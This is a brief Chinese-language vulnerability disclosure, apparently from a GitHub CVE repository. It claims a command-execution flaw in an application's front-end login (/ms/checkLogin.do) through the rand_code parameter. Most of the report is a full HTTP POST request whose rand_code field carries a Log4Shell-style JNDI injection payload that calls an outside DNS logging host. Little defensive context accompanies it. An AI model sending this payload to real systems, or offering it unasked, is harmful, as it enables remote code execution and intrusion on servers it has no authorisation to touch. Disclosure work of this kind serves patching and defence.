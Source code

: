 在前台登录处存在命令执行漏洞
可以通过rand_code参数进行代码执行


```
POST /ms/checkLogin.do HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 106
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="100"
Pragma: no-cache
sec-ch-ua-mobile: ?0
Content-Type: application/x-www-form-urlencoded
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:8088
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8088/ms/login.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pageno_cookie=1; JSESSIONID=BD34D601FC3933412466B54942B5EBEA
Connection: close
Accept: 1
User-Agent: 2
X-Client-IP: 3

managerName=msopen&managerPassword=123456&rememberMe=false&rand_code=${jndi:dns://xxxx.wputvy.dnslog.cn/t}
```
![图片](https://github.com/tanalala/CVE/assets/87268585/6e33165a-d46a-47a8-8a62-cc9a2b7cdcc6)

